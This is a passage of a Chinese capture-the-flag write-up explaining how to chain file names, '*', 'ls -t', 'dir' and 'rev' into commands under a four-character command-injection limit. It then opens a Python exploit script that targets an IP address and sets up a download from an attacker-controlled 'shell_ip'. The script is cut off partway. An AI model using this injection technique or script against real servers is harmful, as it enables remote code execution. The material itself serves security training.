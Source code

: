 ### **热烈分析**

只有四个字符的施展空间意味着我们能做的事情少之又少，但Linux本身的简洁给了我们机会。

突破之旅从神奇的星号 * 开始。

![http://p1.qhimg.com/t011d2b1095c9235710.png](t01c68ec189f2c38155.png)

经过简单测试我们猜测 * 的作用相当于 `ls` 。这其实相当厉害，我们本就基本上可以创建任意名字的短文件，现在又可以一个字符就把这些文件名连起来当作命令执行，这提供了很大的想象空间。

![http://p1.qhimg.com/t016acaa6a8c9c4497c.png](t01fbeb47c643a3f4fd.png)

还有本质上一样但现象很有趣的，待会儿会用到：

![http://p7.qhimg.com/t015afceef8c0976153.png](t01cdd7b9abeb575d5f.png)

虽然这些特技提供了一些可能性，但是 ls 列出的文件顺序问题仍然是个挑战，我们很难在 alphabetical 序的基础上构造出有用的命令。

写入时间是我们可以控制的，如果能执行 ls –t（将文件按时间排序输出），那么只要把想执行的命令分割成若干段然后逆序写入，就可以随心所欲地构造出任意命令。考虑到 ls -t 本身就已经有4个字符了，我们故技重施，先将 ls -t > f 写入文件 g 中，然后执行 sh g 即可将我们分段逆序写入的命令拼接起来。

在开始操作前，再介绍两个会用到的命令：dir 和 rev。

****

#### **dir**

在GNU文档中有下图这样的描述：

![http://p1.qhimg.com/t014c12aa56fd9386f9.png](https://p5.ssl.qhimg.com/t01406e4dcc8e6ff0f7.png)

虽然基本上和 ls 一样，但有两个好处，一是开头字母是d ，这使得它在 alphabetical 序中靠前，二是按列输出，不换行。

#### **rev**

这个前面出场过，可以反转文件每一行的内容。

![http://p8.qhimg.com/t01184834f69bddb51a.png](t010c4a372f495ce020.png)

实验一下：

![http://p2.qhimg.com/t0192fac539940680bc.png](t016a0cf34a18724b08.png)

### **开始挑战**

需要知道的命令和 tips 都已经介绍了，下面是代码和解释：

```python
#-*-coding:utf8-*-
import requests as r
from time import sleep
import random
import hashlib
target = 'http://52.197.41.31/'
 
# 存放待下载文件的公网主机的IP
shell_ip = 'xx.xx.xx.xx'
 
# 本机IP
your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()
 
# 将shell_IP转换成十六进制
ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                     for i in shell_ip.split('.')])
 
reset = target + '?reset'
cmd = target + '?cmd='
sandbox = target + 'sandbox/' + 
```